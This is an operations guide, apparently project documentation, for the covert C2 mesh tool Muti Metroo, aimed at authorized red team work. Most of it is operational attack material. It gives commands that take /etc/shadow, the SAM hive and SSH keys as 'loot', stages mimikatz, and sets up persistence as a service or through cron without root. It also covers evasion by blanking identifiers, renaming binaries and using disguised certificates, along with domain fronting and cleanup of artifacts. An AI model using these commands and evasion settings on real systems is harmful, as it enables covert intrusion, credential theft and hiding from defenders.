

# Red Team Operations Guide

This guide covers operational security (OPSEC) considerations for using Muti Metroo in authorized red team engagements, penetration testing, and security assessments.

:::warning Authorization Required
This documentation is intended for authorized security professionals conducting legitimate penetration tests, red team exercises, or security research. Always ensure you have proper written authorization before deploying Muti Metroo in any environment.
:::

## Operational Overview

Muti Metroo is a covert mesh networking tool designed for red team operations. It creates encrypted tunnels across multiple nodes, enabling secure command and control (C2) infrastructure that resists detection and attribution.

### What It Does

Deploy agents across compromised hosts to create a self-organizing mesh network. Traffic flows through multiple hops with end-to-end encryption - intermediate nodes relay traffic but cannot inspect it. Operate through the mesh via SOCKS5 proxy or direct shell/file transfer commands.



### Use Cases

**Segmented Network Access**
Reach isolated network segments by chaining through multiple compromised hosts. Deploy an exit agent in the target segment, connect through transit agents, and access internal resources as if you were local.

**Attribution Resistance**
Route traffic through multiple hops across different networks and jurisdictions. Each hop only sees its neighbors - compromise of a single agent doesn't expose the full path or operator location.

**Persistent Covert Channel**
Maintain long-term access with agents installed as system services. Traffic blends with normal HTTPS (HTTP/2, WebSocket) or uses QUIC on standard ports. Configurable protocol identifiers can be disabled for stealth.

**Topology Compartmentalization**
Encrypt mesh topology with management keys so compromised field agents cannot reveal the network structure. Only operator nodes with the private key can view the full mesh.

**Cross-Platform C2**
Execute commands and transfer files across Linux, macOS, and Windows targets from a single interface. Full interactive shell support including Windows PowerShell via ConPTY.

### Core Capabilities

| Capability | Description |
|------------|-------------|
| **Multi-hop routing** | Automatic path discovery, traffic routed through multiple nodes |
| **E2E encryption** | X25519 + ChaCha20-Poly1305 per-stream, transit nodes cannot decrypt |
| **Remote shell** | Interactive PTY (bash, PowerShell, cmd) and streaming command execution |
| **File transfer** | Upload/download files and directories with streaming and compression |
| **Topology protection** | Management key encryption hides mesh structure from compromised agents |
| **Transport options** | QUIC, HTTP/2, WebSocket - with HTTP proxy support for WebSocket |
| **Cross-platform** | Linux, macOS, Windows with full PTY support (ConPTY on Windows) |
| **Persistence** | System service installation (systemd, launchd, Windows Service) |

## Binary Characteristics

| Platform | Binary Size |
|----------|-------------|
| Linux amd64 | ~4 MB |
| Linux arm64 | ~3.5 MB |
| macOS arm64 | ~13 MB (signed, notarized) |
| macOS amd64 | ~14 MB (signed, notarized) |
| Windows amd64 | ~4 MB |
| Windows arm64 | ~13 MB |

The binary is statically compiled with no runtime dependencies. Key characteristics:

- Standard Go executable (no shellcode or injection)
- No external DLL requirements on Windows
- Can be renamed to blend with environment
- Pre-built binaries available at [Download](/download)

## OPSEC Configuration

### Protocol Identifier Customization

By default, Muti Metroo uses identifiable protocol strings. Disable all custom identifiers for stealth:

```yaml
protocol:
  alpn: ""           # Disable custom ALPN (QUIC/TLS)
  http_header: ""    # Disable X-Muti-Metroo-Protocol header
  ws_subprotocol: "" # Disable WebSocket subprotocol
```

| Identifier | Default Value | Network Visibility |
|------------|---------------|-------------------|
| ALPN | `muti-metroo/1` | TLS ClientHello, visible to middleboxes |
| HTTP Header | `X-Muti-Metroo-Protocol` | HTTP/2 headers |
| WS Subprotocol | `muti-metroo/1` | WebSocket upgrade request |

### HTTP Endpoint Hardening

The HTTP API can leak operational information. Minimize exposure:

```yaml
http:
  enabled: true
  address: "127.0.0.1:8080"  # Localhost only
  minimal: true              # Only /health, /healthz, /ready
```

Or with granular control:

```yaml
http:
  enabled: true
  address: "127.0.0.1:8080"
  pprof: false       # NEVER enable in operations
  dashboard: false   # Exposes topology
  remote_api: false  # Exposes agent list
```

Disabled endpoints return HTTP 404 (indistinguishable from non-existent paths).

### Environment Variable Substitution

Configs support environment variables for credential separation:

```yaml
socks5:
  auth:
    users:
      - username: "${SOCKS_USER}"
        password: "${SOCKS_PASS}"

shell:
  password_hash: "${SHELL_HASH}"

management:
  public_key: "${MGMT_PUBKEY}"
```

This allows credentials to be passed at runtime without filesystem artifacts.

## Transport Selection

Choose transports based on target environment and evasion requirements:

### QUIC (UDP)

**Best for:** High performance, NAT traversal, mobile networks

```yaml
listeners:
  - transport: quic
    address: "0.0.0.0:443"  # Use common port
```

**Considerations:**
- UDP-based, may trigger alerts on networks expecting TCP-only
- Excellent performance with native multiplexing
- Works well through NAT without port forwarding
- Some enterprise firewalls block non-TCP/80/443

### HTTP/2 (TCP)

**Best for:** Corporate environments, blending with HTTPS traffic

```yaml
listeners:
  - transport: h2
    address: "0.0.0.0:443"
    path: "/api/v2/stream"  # Realistic API path
```

**Considerations:**
- Indistinguishable from normal HTTPS on wire
- Works through TLS-inspecting proxies (with valid certs)
- Single TCP connection with frame multiplexing
- Path should match cover story (e.g., `/api/`, `/ws/`, `/connect`)

### WebSocket (TCP)

**Best for:** Maximum compatibility, HTTP proxy traversal, CDN fronting

```yaml
listeners:
  - transport: ws
    address: "0.0.0.0:443"
    path: "/socket.io/"  # Common WebSocket path

peers:
  - transport: ws
    address: "wss://cdn-endpoint.example.com:443/api/realtime"
    proxy: "http://corporate-proxy.internal:8080"
    proxy_auth:
      username: "${PROXY_USER}"
      password: "${PROXY_PASS}"
```

**Considerations:**
- **HTTP proxy support** with authentication
- Works through corporate proxies and CDNs
- Can use domain fronting techniques
- Upgrade headers may be logged

### Transport Comparison Matrix

| Factor | QUIC | HTTP/2 | WebSocket |
|--------|------|--------|-----------|
| Protocol | UDP | TCP | TCP |
| Default Port | 443 | 443 | 443/80 |
| Proxy Support | No | Limited | **Yes** |
| CDN Fronting | No | Yes | **Yes** |
| Corporate Firewall | Medium | High | **High** |
| Performance | **Best** | Good | Good |
| NAT Traversal | **Best** | Good | Good |

## C2 Capabilities

### Remote Command Execution

Muti Metroo supports two shell execution modes:

#### Streaming Mode (Default)

Non-PTY execution for simple commands and continuous output:

```bash
# One-shot commands
muti-metroo shell <agent-id> whoami
muti-metroo shell <agent-id> cat /etc/passwd
muti-metroo shell <agent-id> ipconfig /all

# Long-running with streaming output
muti-metroo shell <agent-id> tail -f /var/log/auth.log
muti-metroo shell <agent-id> tcpdump -i eth0
```

#### Interactive Mode (--tty)

Full PTY allocation for interactive programs:

```bash
# Interactive shells
muti-metroo shell --tty <agent-id> bash
muti-metroo shell --tty <agent-id> powershell
muti-metroo shell --tty <agent-id> cmd.exe

# Interactive tools
muti-metroo shell --tty <agent-id> vim /etc/hosts
muti-metroo shell --tty <agent-id> htop
muti-metroo shell --tty <agent-id> python3
```

**Platform Support:**

| Platform | Streaming | Interactive (PTY) |
|----------|-----------|-------------------|
| Linux | Yes | Yes (creack/pty) |
| macOS | Yes | Yes (creack/pty) |
| Windows | Yes | Yes (ConPTY) |

:::info Windows ConPTY
Windows agents use ConPTY (Windows Pseudo Console) for interactive sessions. Available on Windows 10 1809+ and Windows Server 2019+. Supports full terminal emulation including colors, cursor movement, and window resize.
:::

#### Shell Configuration

```yaml
shell:
  enabled: true
  whitelist:
    - "*"              # Allow all (operational use)
    # Or specific commands:
    # - bash
    # - powershell
    # - cmd
    # - whoami
  password_hash: "$2a$10$..."  # bcrypt hash
  timeout: 0s          # 0 = no timeout
  max_sessions: 0      # 0 = unlimited
```

**Security notes:**
- Command whitelist prevents unauthorized command execution
- Dangerous shell metacharacters are blocked: `; & | $ \` ( ) { } [ ] < > \ ! * ? ~`
- Absolute paths in arguments are rejected
- Password authentication adds protection layer

### File Operations

#### File Exfiltration

```bash
# Download single file
muti-metroo download <agent-id> /etc/shadow ./loot/shadow
muti-metroo download <agent-id> C:\Windows\System32\config\SAM ./loot/SAM

# Download entire directory (auto tar+gzip)
muti-metroo download <agent-id> /home/user/.ssh ./loot/ssh-keys
muti-metroo download <agent-id> C:\Users\target\Documents ./loot/docs
```

#### Tool Staging

```bash
# Upload single file
muti-metroo upload <agent-id> ./tools/linpeas.sh /tmp/lp.sh
muti-metroo upload <agent-id> ./tools/mimikatz.exe C:\Windows\Temp\m.exe

# Upload directory (maintains structure)
muti-metroo upload <agent-id> ./toolkit /tmp/toolkit
```

#### File Transfer Configuration

```yaml
file_transfer:
  enabled: true
  password_hash: "$2a$10$..."
  max_file_size: 0        # 0 = unlimited
  allowed_paths:
    - "*"                 # Full filesystem (operational)
    # Or restricted:
    # - /tmp
    # - /home/*/
    # - C:\Users\*\Documents
```

**Features:**
- Streaming transfer (no memory limits)
- Directory support with tar/gzip compression
- File permissions preserved
- Symlink validation (prevents escape attacks)
- Path traversal protection

### Multi-Hop Routing

Traffic is automatically routed through the mesh for attribution resistance:

```
Operator -> Ingress -> Transit1 -> Transit2 -> Exit -> Target
```

**Path characteristics:**
- Each hop only sees adjacent peers
- E2E encryption prevents transit inspection
- Routes propagate via flooding (automatic discovery)
- Longest-prefix-match for route selection

**Practical limits:**

| Use Case | Max Hops | Limiting Factor |
|----------|----------|-----------------|
| Interactive SSH | 8-12 | Latency (~5-50ms/hop) |
| File Transfer | 12-16 | Throughput |
| High-latency WAN | 4-6 | 30s stream timeout |

## Management Key Encryption

Management key encryption provides cryptographic compartmentalization. When enabled, NodeInfo (hostnames, OS, IPs, peer lists) is encrypted so only operators can view topology.

### Threat Model

**Protected against:**
- Blue team captures agent, enables dashboard -> sees encrypted blobs only
- Blue team dumps agent memory -> no private key present
- Blue team analyzes network traffic -> NodeInfo encrypted
- Compromised field agent -> cannot expose other agents' details

**Not protected against:**
- Traffic analysis (connection patterns visible)
- Agent ID correlation (IDs remain plaintext for routing)
- Compromise of operator machine with private key

### Key Generation

```bash
muti-metroo management-key generate
```

Output:
```
Management Keypair Generated
============================
Public Key:  a1b2c3d4e5f6... (64 hex chars)
Private Key: e5f6a7b8c9d0... (64 hex chars)

IMPORTANT: Store the private key securely!
```

### Deployment Configuration

**All field agents (encrypt only):**

```yaml
management:
  public_key: "a1b2c3d4e5f6789012345678901234567890123456789012345678901234abcd"
  # NO private_key - field agents cannot decrypt
```

**Operator nodes (can decrypt):**

```yaml
management:
  public_key: "a1b2c3d4e5f6789012345678901234567890123456789012345678901234abcd"
  private_key: "e5f6a7b8c9d012345678901234567890123456789012345678901234567890ef"
```

### What Gets Protected

| Data | Encrypted | Plaintext | Reason |
|------|:---------:|:---------:|--------|
| Hostname, OS, IPs | Yes | | System identification |
| Peer list | Yes | | Topology exposure |
| Agent display name | Yes | | Operational naming |
| Agent IDs | | Yes | Required for routing |
| Route CIDRs/metrics | | Yes | Required for routing |
| Stream data | | Yes | Separate E2E encryption |

### API Behavior Without Private Key

When accessing dashboard APIs on a field agent (no private key):

```json
// GET /api/dashboard
{
  "agent": { "display_name": "local-only", "is_local": true },
  "peers": [],     // Empty - no peer info exposed
  "routes": []     // Empty - no route info exposed
}

// GET /api/nodes
{
  "nodes": [
    { "is_local": true }  // Only local node visible
  ]
}
```

## Recommended Configurations

### Minimal Transit Node

Relay-only node with minimum footprint:

```yaml
agent:
  data_dir: "/var/lib/app-cache"
  log_level: "error"

protocol:
  alpn: ""
  http_header: ""
  ws_subprotocol: ""

listeners:
  - transport: h2
    address: "0.0.0.0:443"
    path: "/api/health"

http:
  enabled: true
  address: "127.0.0.1:8080"
  minimal: true

socks5:
  enabled: false

exit:
  enabled: false

shell:
  enabled: false

file_transfer:
  enabled: false

management:
  public_key: "${MGMT_PUBKEY}"
```

### Full C2 Endpoint

Complete capability for target access:

```yaml
agent:
  data_dir: "/opt/.cache/app"
  log_level: "error"

protocol:
  alpn: ""
  http_header: ""
  ws_subprotocol: ""

listeners:
  - transport: ws
    address: "0.0.0.0:443"
    path: "/ws/v1"

http:
  enabled: true
  address: "127.0.0.1:8080"
  minimal: true

shell:
  enabled: true
  whitelist: ["*"]
  password_hash: "${SHELL_HASH}"
  max_sessions: 0

file_transfer:
  enabled: true
  password_hash: "${FILE_HASH}"
  allowed_paths: ["*"]

management:
  public_key: "${MGMT_PUBKEY}"
```

### Ingress with SOCKS5

Entry point for operator traffic:

```yaml
protocol:
  alpn: ""
  http_header: ""
  ws_subprotocol: ""

socks5:
  enabled: true
  address: "127.0.0.1:1080"
  auth:
    enabled: true
    users:
      - username: "operator"
        password_hash: "${SOCKS_HASH}"

http:
  enabled: true
  address: "127.0.0.1:8080"
  dashboard: true   # Operator can view mesh topology
  pprof: false

management:
  public_key: "${MGMT_PUBKEY}"
  private_key: "${MGMT_PRIVKEY}"  # Required to decrypt topology
```

## Persistence

### System Service Installation

Install as a system service for persistence:

```bash
# Linux (systemd) - requires root
sudo muti-metroo service install -c /etc/app-service/config.yaml

# Linux (cron+nohup) - NO root required
muti-metroo service install --user -c ~/app-service/config.yaml

# macOS (launchd) - requires root
sudo muti-metroo service install -c /Library/Application\ Support/AppService/config.yaml

# Windows (Windows Service) - requires Administrator
muti-metroo.exe service install -c C:\ProgramData\AppService\config.yaml
```

**Service locations:**

| Platform | Method | Location |
|----------|--------|----------|
| Linux | systemd (root) | `/etc/systemd/system/muti-metroo.service` |
| Linux | cron+nohup (user) | `~/.muti-metroo/muti-metroo.sh` + cron `@reboot` |
| macOS | launchd | `/Library/LaunchDaemons/com.muti-metroo.plist` |
| Windows | Service Manager | Windows Service Registry |

### Non-Root Persistence (Linux)

When root access is unavailable, use the `--user` flag to install via cron+nohup:

```bash
# Install without root privileges
muti-metroo service install --user -c ~/config.yaml

# Check status
muti-metroo service status

# View logs
tail -f ~/.muti-metroo/muti-metroo.log

# Uninstall
muti-metroo service uninstall
```

**Cron+nohup characteristics:**
- Creates `@reboot` cron entry for automatic startup
- Logs to `~/.muti-metroo/muti-metroo.log`
- PID file at `~/.muti-metroo/muti-metroo.pid`
- No auto-restart on crash (unlike systemd)
- Works on any Linux with cron installed

**Comparison:**

| Feature | systemd (root) | cron+nohup (user) |
|---------|----------------|-------------------|
| Requires root | Yes | No |
| Auto-restart | Yes | No |
| Log management | journald | File-based |
| Boot persistence | Yes | Yes |
| Process visibility | `systemctl` | PID file |

Consider renaming the binary and service to blend with the environment.

## Detection Avoidance

### Network Indicators

| Indicator | Default | Mitigation |
|-----------|---------|------------|
| Custom ALPN | `muti-metroo/1` | Set empty string |
| HTTP header | `X-Muti-Metroo-Protocol` | Set empty string |
| WS subprotocol | `muti-metroo/1` | Set empty string |
| Certificate CN | `muti-metroo` | Use realistic names |
| Beaconing interval | 30s keepalive | Adjust timing |
| Connection burst | Immediate | Stagger peer connections |

### Host Indicators

| Indicator | Mitigation |
|-----------|------------|
| Binary name | Rename to match environment |
| Service name | Customize service installation |
| Config path | Use realistic system paths |
| Log files | Set `log_level: error`, use syslog |
| Data directory | Blend with system directories |

### Certificate Considerations

Generate certificates with realistic attributes:

```bash
# Generate CA with corporate-like name
muti-metroo cert ca -n "Internal Services Root CA" -o ./certs

# Generate agent cert matching environment
muti-metroo cert agent -n "api-gateway-prod-01" \
  --ca ./certs/ca.crt \
  --ca-key ./certs/ca.key \
  -o ./certs
```

**Certificate tips:**
- Match organizational naming conventions
- Use appropriate validity periods (1 year typical)
- Consider using legitimate certificates if available
- Self-signed certs may trigger TLS inspection alerts

## Cleanup

### Uninstall Service

```bash
# Linux
sudo muti-metroo service uninstall

# macOS
sudo muti-metroo service uninstall

# Windows (as Administrator)
muti-metroo.exe service uninstall
```

### Remove Artifacts

```bash
# Remove data directory
rm -rf /path/to/data_dir

# Remove binary and config
rm /path/to/muti-metroo
rm /path/to/config.yaml

# Clear relevant logs
# (location depends on configuration)
```

### Forensic Considerations

- Agent ID is stored in `data_dir/identity.json`
- E2E keypair stored in `data_dir/keypair.json`
- No persistent logs by default (when `log_level: error`)
- Memory contains active session keys

## Operational Checklist

### Pre-Deployment

- [ ] Generate management keypair (keep private key secure)
- [ ] Generate unique agent certificates
- [ ] Configure stealth protocol settings (empty identifiers)
- [ ] Set appropriate log level (`error` or `warn`)
- [ ] Prepare environment-specific config files
- [ ] Test connectivity through target network path

### Deployment

- [ ] Transfer binary (renamed appropriately)
- [ ] Deploy config with environment variables
- [ ] Initialize agent identity
- [ ] Install as service (if persistence needed)
- [ ] Verify connectivity to mesh
- [ ] Test shell and file transfer capabilities

### Post-Operation

- [ ] Uninstall services on all agents
- [ ] Remove binaries and configs
- [ ] Clear data directories
- [ ] Document accessed systems
- [ ] Verify cleanup completeness

## Legal and Ethical Considerations

- Always obtain written authorization before deployment
- Document all activities for engagement report
- Respect scope boundaries strictly
- Report unexpected findings through proper channels
- Coordinate with blue team per rules of engagement
- Retain evidence per engagement requirements

---

For technical security details, see:
- [End-to-End Encryption](e2e-encryption)
- [TLS and mTLS](tls-mtls)
- [Authentication](authentication)
- [Access Control](access-control)
